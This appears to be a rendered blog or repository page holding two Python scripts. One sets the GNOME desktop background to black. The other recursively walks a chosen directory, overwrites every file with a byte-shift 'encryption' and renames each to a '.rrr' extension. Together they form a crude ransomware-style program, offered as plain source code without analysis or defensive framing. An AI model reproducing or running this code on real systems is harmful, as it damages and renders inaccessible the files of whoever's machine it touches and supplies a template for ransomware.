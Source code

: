 ```yaml
---
layout: post
---
```


import subprocess

def change_wallpaper_to_black():
    # Command to change wallpaper using gsettings
    command = "gsettings set org.gnome.desktop.background primary-color '#000000'"
    
    try:
        # Execute the command
        subprocess.run(command, shell=True, check=True)
    except subprocess.CalledProcessError as e:
        print("Error:", e)

if __name__ == "__main__":
    change_wallpaper_to_black()




import os

def encrypt_file(file_path):
    # Open the file in read mode
    with open(file_path, 'rb') as f:
        data = f.read()
    
    # Define the encryption key (for demonstration purposes)
    encryption_key = 5
    
    # Encrypt the data by shifting ASCII values
    encrypted_data = bytes([(byte + encryption_key) % 256 for byte in data])
    
    # Write the encrypted data back to the file
    with open(file_path, 'wb') as f:
        f.write(encrypted_data)
    
    # Change the file extension to .rrr
    os.rename(file_path, file_path + ".rrr")
    
    # Print the encrypted file path
    print(f"Encrypted: {file_path}.rrr")

def encrypt_directory(directory):
    # Iterate over all files in the directory
    for root, dirs, files in os.walk(directory):
        for file in files:
            file_path = os.path.join(root, file)
            encrypt_file(file_path)

if __name__ == "__main__":
    directory_path = input("Enter the directory path to encrypt files: ")
    encrypt_directory(directory_path)
    print("Encryption and extension change complete!")
